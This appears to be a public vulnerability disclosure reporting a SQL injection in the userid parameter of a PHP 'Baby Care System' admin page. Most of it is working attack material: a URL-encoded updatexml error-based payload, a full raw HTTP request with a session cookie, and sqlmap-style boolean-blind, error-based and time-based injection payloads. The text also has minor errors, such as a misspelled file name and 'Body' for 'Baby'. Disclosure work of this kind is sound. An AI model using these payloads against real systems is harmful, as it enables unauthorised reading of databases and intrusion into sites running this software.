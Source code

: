## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/uesrs.php&action=type&userrole=Admin&userid=3

![image](https://user-images.githubusercontent.com/54017627/161356632-c3f8fb12-4696-437f-8827-ee3edf86aac8.png)

Vulnerability location: /BabyCare/admin.php?id=users&action=type&userrole=Admin&userid=3 //uesrid is Injection point

[+]Payload:  /BabyCare/admin.php?id=users&action=type&userrole=Admin&userid=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //userid is Injection point

```sql
GET /BabyCare/admin.php?id=users&action=type&userrole=Admin&userid=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161356539-57cb5e80-5591-43f1-b23b-4cd120494c85.png)

```sql
---
Parameter: userid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=users&action=type&userrole=Admin&userid=3' RLIKE (SELECT (CASE WHEN (7538=7538) THEN 3 ELSE 0x28 END))-- NbTT

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=users&action=type&userrole=Admin&userid=3' AND (SELECT 2325 FROM(SELECT COUNT(*),CONCAT(0x71717a7a71,(SELECT (ELT(2325=2325,1))),0x7170787171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- WVHM

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=users&action=type&userrole=Admin&userid=3' AND (SELECT 2980 FROM (SELECT(SLEEP(5)))vKGr)-- qZsw
---
```

![image](https://user-images.githubusercontent.com/54017627/161356602-ed01f524-7a1f-465d-abe7-8d3f6ce7cd38.png)

